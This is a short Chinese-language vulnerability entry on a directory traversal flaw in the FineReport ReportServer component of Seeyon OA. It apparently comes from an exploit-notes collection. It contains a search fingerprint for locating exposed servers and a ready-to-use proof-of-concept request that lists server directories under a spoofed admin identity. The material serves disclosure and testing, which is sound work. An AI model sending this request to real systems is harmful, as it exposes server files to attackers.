

# 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>致远OA 帆软组件 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```php
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

